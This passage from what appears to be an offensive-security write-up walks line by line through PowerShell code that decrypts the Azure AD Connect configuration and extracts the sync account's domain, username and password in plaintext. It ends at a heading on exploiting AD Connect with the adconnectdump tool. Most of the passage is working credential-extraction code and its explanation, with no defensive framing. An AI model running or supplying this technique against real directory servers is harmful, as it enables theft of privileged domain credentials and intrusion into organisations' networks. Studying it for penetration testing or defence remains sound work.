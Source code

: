 6.  `$key2 = $null`
    -   Initializes a variable to store a secondary key.

7.  `$km.GetKey(1, [ref]$key2)`
    -   Retrieves the secondary key (key ID 1).

8.  `$decrypted = $null`
    -   Initializes a variable to store the decrypted configuration.

9.  `$key2.DecryptBase64ToString($crypted, [ref]$decrypted)`
    -   Decrypts the encrypted configuration using the secondary key.


#### 5. Extracting Credentials {#5-dot-extracting-credentials}

```powershell
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

##### Line-by-line breakdown:

1.  `$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}`
    -   Extracts the domain from the configuration XML using XPath.

2.  `$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}`
    -   Extracts the username from the configuration XML using XPath.

3.  `$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}`
    -   Extracts the password from the decrypted configuration using XPath.

4.  `Write-Host ("Domain: " + $domain.Domain)`
    -   Displays the extracted domain.

5.  `Write-Host ("Username: " + $username.Username)`
    -   Displays the extracted username.

6.  `Write-Host ("Password: " + $password.Password)`
    -   Displays the extracted password.


### Exploiting AD Connect Using [adconnectdump](https://github.com/dirkjanm/adconnectdump?tab=readme-ov-file): {#exploiting-ad-connect-using-adconnectdump--20241014084307-adconnectdump-dot-md}
